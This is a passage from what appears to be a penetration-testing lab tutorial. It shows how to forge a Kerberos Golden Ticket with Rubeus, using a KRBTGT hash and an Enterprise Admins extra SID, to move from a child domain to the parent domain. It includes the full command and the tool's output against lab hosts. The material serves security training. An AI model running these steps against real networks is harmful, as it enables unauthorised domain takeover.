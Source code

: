 We can also perform this attack using Rubeus. First, again, we'll confirm that we cannot access the parent domain Domain Controller's file system.

#### Using ls to Confirm No Access Before Running Rubeus

```powershell-session
PS C:\htb> ls \\academy-ea-dc01.inlanefreight.local\c$

ls : Access is denied
At line:1 char:1
+ ls \\academy-ea-dc01.inlanefreight.local\c$
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (\\academy-ea-dc01.inlanefreight.local\c$:String) [Get-ChildItem], UnauthorizedAcces 
   sException
    + FullyQualifiedErrorId : ItemExistsUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetChildItemCommand
	
<SNIP> 
```

Next, we will formulate our Rubeus command using the data we retrieved above. The `/rc4` flag is the NT hash for the KRBTGT account. The `/sids` flag will tell Rubeus to create our Golden Ticket giving us the same rights as members of the Enterprise Admins group in the parent domain.

#### Creating a Golden Ticket using Rubeus

```powershell-session
PS C:\htb>  .\Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689  /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.2 

[*] Action: Build TGT

[*] Building PAC

[*] Domain         : LOGISTICS.INLANEFREIGHT.LOCAL (LOGISTICS)
[*] SID            : S-1-5-21-2806153819-209893948-922872689
[*] UserId         : 500
[*] Groups         : 520,512,513,519,518
[*] ExtraSIDs      : S-1-5-21-3842939050-3880317879-2865463114-519
[*] ServiceKey     : 9D765B482771505CBE97411065964D5F
[*] ServiceKeyType : KERB_CHECKSUM_HMAC_MD5
[*] KDCKey         : 9D765B482771505CBE97411065964D5F
[*] KDCKeyType     : KERB_CHECKSUM_HMAC_MD5
[*] Service        : krbtgt
[*] Target         : LOGISTICS.INLANEFREIGHT.LOCAL

[*] Generating EncTicketPart
[*] Signing PAC
[*] Encrypting EncTicketPart
[*] Generating Ticket
[*] Generated KERB-CRED
[*] Forged a TGT for 'hacker@LOGISTICS.INLANEFREIGHT.LOCAL'

[*] AuthTime       : 3/29/2022 10:06:41 AM
[*] StartTime      : 3/29/2022 10:06:41 AM
```